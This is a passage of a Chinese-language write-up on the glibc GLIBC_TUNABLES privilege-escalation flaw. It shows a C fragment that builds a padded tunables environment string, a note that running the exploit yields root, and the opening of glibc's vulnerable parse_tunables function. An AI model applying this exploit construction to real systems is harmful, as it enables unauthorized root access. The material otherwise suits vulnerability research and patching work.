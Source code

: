 ```plain
#include <string.h>

#define PADDING_SIZE 50  // 根据实际情况定义 PADDING_SIZE
#define ENVP_SIZE 10     // 根据实际情况定义 ENVP_SIZE

int main() {
    char padding[PADDING_SIZE - 3];

    const char *prefix = "GLIBC_TUNABLES=";
    strcpy(padding, prefix);

    size_t prefixLength = strlen(prefix);
    for (size_t i = prefixLength; i < PADDING_SIZE - 4; i++) {
        padding[i] = 'D';
    }
    padding[PADDING_SIZE - 4] = '\0';

    char *envp[ENVP_SIZE];
    envp[ENVP_SIZE - 2] = strdup(padding);
    free(envp[ENVP_SIZE - 2]);

    return 0;
}
```

[![](assets/1703485170-fe8a700b136aecae00b99461355af192.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231224141643-0241dc60-a224-1.png)

退出 gdb，直接执行 exp

获取到 root 权限。

# 漏洞代码

根据NVD漏洞介绍，首先定位文件`elf/dl-tunables.c`

定位到函数`parse_tunables`

```plain
static void
parse_tunables (char *tunestr, char *valstring)
{
  if (tunestr == NULL || *tunestr == '\0')
    return;

  char *p = tunestr;
  size_t off = 0;

  while (true)
    {
      char *name = p;
      size_t len = 0;

      /* First, find where the name ends.  */
      while (p[len] != '=' && p[len] != ':' && p[len] != '\0')
    len++;

      /* If we reach the end of the string before getting a valid name-value
     pair, bail out.  */
```